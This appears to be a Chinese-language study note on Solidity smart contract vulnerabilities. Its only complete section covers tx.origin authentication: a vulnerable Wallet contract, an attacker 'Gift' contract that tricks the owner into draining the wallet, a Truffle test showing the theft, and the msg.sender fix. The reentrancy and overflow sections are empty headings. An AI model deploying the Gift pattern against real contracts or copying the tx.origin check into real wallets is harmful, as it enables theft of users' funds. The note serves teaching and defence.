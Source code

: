 # 合约漏洞

## 重入漏洞

进行转账时调用了攻击合约的`fallback()`或`receive()`函数就会产生重入漏洞。

例：


## 整数溢出漏洞


## tx.origi权限控制漏洞

因为`tx.origin`是交易的原始发起者，而不是当前调用的合约地址。黑客就可以利用这个漏洞绕过权限检查。

下面这个合约就存在权限控制漏洞。
``` solidity
contract Wallet {
    address public owner;

    constructor() payable {
        owner = tx.origin;
    }

    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```
这是一个钱包合约，部署者可以在部署合约时把钱存到合约中，需要的时候可以通过调用`transfer`函数将钱包中的钱转到其他账户中。

黑客可以部署一个这样的合约诱骗部署者调用将钱转到自己的账户上。
``` solidity
contract Gift {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    function receive() public {
        wallet.transfer(owner,address(wallet).balance);
    }
}
```
当`Wallet`的所有者调用`receive`函数时，`Wallet`中所有余额就被不知不觉地转到了黑客的账户中。

下面是truffle模拟
``` js
const Wallet = artifacts.require("Wallet");
const Gift = artifacts.require("Gift");
contract("test",(accounts)=>{
    it("正常转账",async ()=>{
        //创建钱包，存10ether
        const wallet = await Wallet.new({from:accounts[0],value:web3.utils.toWei("10","ether")});
        //转账给自己
        await wallet.transfer(accounts[0],web3.utils.toWei("10","ether"));
        assert.equal(await web3.eth.getBalance(wallet.address),web3.utils.toWei("0","ether"));
    });
    it("领取礼物",async ()=>{
        //创建钱包，存10ether
        const wallet = await Wallet.new({from:accounts[0],value:web3.utils.toWei("10","ether")});
        //黑客部署 gift
        const gift = await Gift.new(wallet.address,{from:accounts[1]});
        //领取礼物
        await gift.receive({from:accounts[0]});
        //钱包里的钱已经被黑客转走
        assert.equal(await web3.eth.getBalance(wallet.address),0);
    })
});
```

解决方法：将`tx.origin `换成`msg.sender`即可。





